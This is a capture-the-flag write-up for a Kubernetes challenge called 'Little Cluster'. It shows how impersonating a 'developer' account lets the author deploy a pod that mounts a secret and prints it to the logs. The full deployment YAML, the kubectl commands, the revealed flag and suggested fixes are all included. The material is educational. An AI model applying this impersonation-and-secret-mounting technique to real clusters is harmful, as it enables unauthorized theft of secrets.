


# Little Cluster
Write-Up by @PHPCore

## Description
Hey, today you'll learn to become a captain on the high seas of Kubernetes. Spawn yourself a ship and login to the helm to get started. You are deployed into a nice pod that is prepared with a kubectl to control everything you need. As a start you should figure out what you are allowed to do and the find the secret flag hidden on the ship.

Here are some additional resource to get you started:

 * API [Authentication](https://kubernetes.io/docs/reference/access-authn-authz/authentication/) and [Authorization](https://kubernetes.io/docs/reference/access-authn-authz/authorization/)
 * Workload [Pods](https://kubernetes.io/docs/concepts/workloads/pods/) and [Deployments](https://kubernetes.io/docs/concepts/workloads/controllers/deployment/)
 * `kubectl` command [reference](https://kubernetes.io/docs/reference/kubectl/)

## Research
We first start by connecting to the Kubernetes Cluster using SSH.
First I gather a list of all important informations:
 * Which Pods are running?: `kubectl get pod`
 * Which permissions do I have?: `kubectl auth can-i --list`

If we list the pods, we've got two pods
 * entrypoint-*-*
 * flag-keeper-*

When we describe them `kubectl describe pod/<name>`, we see, that entrypoint is the SSH-Server we connected to and flag-keeper is a pod, which has a secret called `flag` mounted and executes just the sleep command. The more interesting part: which permissions do we have? 
It almost seems like we only have very restricted read-only access to pods and servides, but the last line in the picture shows us, that we can impersonate another user. If we look at the permissions of `developer`, we see an extra set of write permissions (`kubectl auth can-i --list --as=developer`):

With this we still can't read secrets from the cluster directly, but we have permissions to manage and deploy pods and we can also look at logs from the pods. And by being able to deploy apps, we are also able to create an app, which mounts the secret `flag` from the namespace and echos it out.
## Solution
We will now forge a deployment, which will mount the secret `flag` and then echo the flag, so it will be available in the logs. We can base this on the flag-keeper, because it will be pretty similar. You can view the flag keeper as yaml using the following command: `kubectl get pod flag-keeper-* -o yaml` \
Our new deployment will look like this ([Inspired by this example](https://kubernetes.io/docs/tutorials/configuration/updating-configuration-via-a-configmap/)):
```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: flag-echo
spec:
  replicas: 1
  selector:
    matchLabels:
      app.kubernetes.io/name: flag-echo
  template:
    metadata:
      labels:
        app.kubernetes.io/name: flag-echo
    spec:
      containers:
        - name: flag-echoer
          image: busybox:1.37.0-uclibc
          command:
            - '/bin/sh'
            - -c
            - while true; do echo "The flag is $(cat /flag/flag)";
              sleep 10; done;
          ports:
            - containerPort: 80
          volumeMounts:
            - name: flag
              mountPath: /flag
              readOnly: true
      volumes:
        - name: flag
          secret:
            secretName: flag
```

If we now save this on the server as a file called `flag.yml` (I installed nano as an editor: `sudo apt update && sudo apt install nano`), we can deploy this using our `developer` account with `kubectl apply -f ./flag.yml --as=developer` \
After the deployment, we should see a new pod, when using `kubectl get pod` called `flag-echo-*-*`. When we query its logs using `kubectl logs flag-echo-*-* --as=developer` we will be greeted with the flag:
```
The flag is CSCG{4h0y_c4pt41n!}
The flag is CSCG{4h0y_c4pt41n!}
The flag is CSCG{4h0y_c4pt41n!}
The flag is CSCG{4h0y_c4pt41n!}
```
Now we can enter this flag into the CTF-Platform .

## Patching the Vulnerability
There are three ways to patch this vulnerability:
 * We remove permissions for the entrypoints Service-Account to impersonate `developer`
 * We remove permissions from `developer` to deploy apps or deploy apps which mount secrets, they shouldn't have access to
 * Restrict access to the secret to only certain deployments, which need them